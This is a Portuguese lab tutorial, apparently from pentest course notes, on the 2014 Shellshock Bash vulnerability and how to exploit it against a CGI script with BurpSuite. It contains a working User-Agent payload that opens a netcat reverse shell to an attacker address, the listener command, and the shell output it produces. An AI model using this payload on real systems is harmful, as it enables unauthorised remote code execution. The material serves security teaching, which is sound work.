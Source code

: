 # ShellShock

Shellshock é um conjunto de falhas críticas descobertas em 24/09/2014 no **GNU Bash** (o shell padrão em muitos sistemas Unix-like). O erro está na forma como o Bash **importa funções via variáveis de ambiente**: um invasor consegue “colar” *comandos extras* depois da definição da função; ao iniciar, o Bash acabava executando esses comandos, resultando em **execução remota de código (RCE)**. 

**Exploração:**

Muitos serviços montam variáveis de ambiente e depois chamam o Bash. Se campos controlados pelo usuário (por exemplo, cabeçalhos HTTP em **CGI**), opções de **DHCP**, ou certos fluxos de **SSH** forem repassados ao ambiente e um processo acionar o Bash, os comandos injetados podem ser executados no host. Por isso a falha foi especialmente perigosa em servidores web com CGI habilitado. 

**Identificadores e alcance:**

Shellshock é uma vunerabilidade antiga, improvável de ser encontrada atualmente. O primeiro CVE foi **CVE-2014-6271**, seguido por correções adicionais (**CVE-2014-7169**, **CVE-2014-6277**, **CVE-2014-6278**, entre outros), porque patches iniciais não cobriam todos os vetores. Afetou diversas distribuições Linux e também o macOS da época, que receberam atualizações rapidamente.  Devido a sua importância à época, é usada hoje para fins didáticos.

## Análise do fluxo e ataque com BurpSuite

1. Abra o BurpSuite
2. Na guia **Proxy**, abra o browser do BurpSuite. Ele já vem configurado com atribuições de proxy.
3. No browser digite o IP da máquina alvo para abrir o seu website
4. Abra a aba **Target/SiteMap** do BurpSuite
5. Clique no método GET ditetório /cgi-bin/status.
  - Obeserve a linha **User-agente** do **request**
  - Com o botão direito do mouse no painel **request**, selecione **send to repeater**
6. Abra a aba **Repeater**, e substitua o coneteúdo do **User_agent** por `() { :;}; ` (comando nulo) seguido pelo comando que deseje executar na máquina alvo entre aspas simples (').
  - No exemplo, queremos abrir um netcat...
    - `() { :; }; /bin/bash -c 'nc 192.168.0.178 5555 -e /bin/bash'`
7. Na máquina de ataque inicie no terminal um netcat modo listener para conecção com o alvo `nc -lvp 5555`
8. No Burp, clique em **send**.
9. Pronto, temos uma conexão válida e podemos prosseguir escalando privilégios e criando persistência (como visto em *6 - Post Exploitation*).

```
└─$ nc -lvp 5555                                                                              
listening on [any] 5555 ...
192.168.0.141: inverse host lookup failed: Host name lookup failure
connect to [192.168.0.178] from (UNKNOWN) [192.168.0.141] 42436
whoami
pentesterlab
pwd
/var/www/cgi-bin
```




